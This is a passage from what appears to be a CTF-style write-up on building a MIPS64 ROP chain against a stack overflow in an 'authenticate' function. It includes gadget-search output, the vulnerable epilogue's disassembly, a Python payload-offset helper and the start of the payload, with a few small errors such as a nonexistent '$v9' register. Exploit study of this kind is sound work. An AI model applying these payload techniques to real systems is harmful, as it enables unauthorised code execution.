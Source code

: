 We can apply process to find a gadget for $v1: 
```
$ grep "ld \$v1, " gadgets | grep \$sp
[skip]
0x000000012001270c : ld $v1, 0x80($sp) ; sd $v0, 0xf0($sp) ; dsubu $s5, $v0, $v1 ; dsll $v0, $s5, 6 ; ld $a0, 0xb8($sp) ; ld $t9, 0xe0($sp) ; move $a1, $v0 ; sd $v1, 0xf8($sp) ; jalr $t9 ; sd $v0, 0x100($sp)
[skip]
```
It's a gadget a bit more hard to understand but we just have to take care to: do not write `$v0`, control the value of `$v9` to jump on, control the value of `$v1`. And so this gadget is a good candidate.

Finally we need to control the value of the `$gp` register but to achieve that we do not need to use a gadget, because we already control it thanks to the vuln epilogue:
```x86asm
.text:00000001200046A4 loc_1200046A4:                           # CODE XREF: authenticate+104↑j
.text:00000001200046A4                 move    $sp, $fp
.text:00000001200046A8                 ld      $ra, 0x90+ret_addr($sp)  # Load Doubleword
.text:00000001200046AC                 ld      $fp, 0x90+var_10($sp)  # Load Doubleword
.text:00000001200046B0                 ld      $gp, 0x90+var_18($sp)  # Load Doubleword
.text:00000001200046B4                 daddiu  $sp, 0x90        # Doubleword Add Immediate Unsigned
.text:00000001200046B8                 jr      $ra              # Jump Register
.text:00000001200046BC                 nop
```

## Put all together

For the pruposes of mips exploitation I developped a small function in python which inserts automatically a value at an arbitrary offset.

```py
def make_pld(s, val, pos):
    if len(s) == pos:
        print(f"[*] Gadget: s += {val}")
        s += val
        return s
    elif len(s) > pos:
        print(f"[*] Gadget: {s[:pos-1]} + {val} + {s[pos-1+len(val):]}")
        s = s[:pos-1] + val + s[pos-1+len(val):]
        return s 
    elif len(s) < pos:
        k = "\x00"*(pos-len(s))
        print(f"[*] Gadget: {s} + {k} + {val}")
        return s + b"\x00"*(pos-len(s)) + val
```

It's very useful because we are then able to give the right offset about the stack pointer when we execute the gadgets.
We can begin by overwriting the value of the saved `$gp` and `$ra`:
```py
GP = 0x120048020
BASE_RSP = 0x90

pld  = make_pld(b"", p64(GP), BASE_RSP-0x18) # $gp
pld  = make_pld(pld, p64(SET_V1), BASE_RSP-0x8) # $ra
```
BASE_RSP is the offset of the input's buffer about the `$sp` address when we return and so when we start to execute some gadgets.
We indicate the gadget to execute which is the gadget which sets `$v1` register to zero.
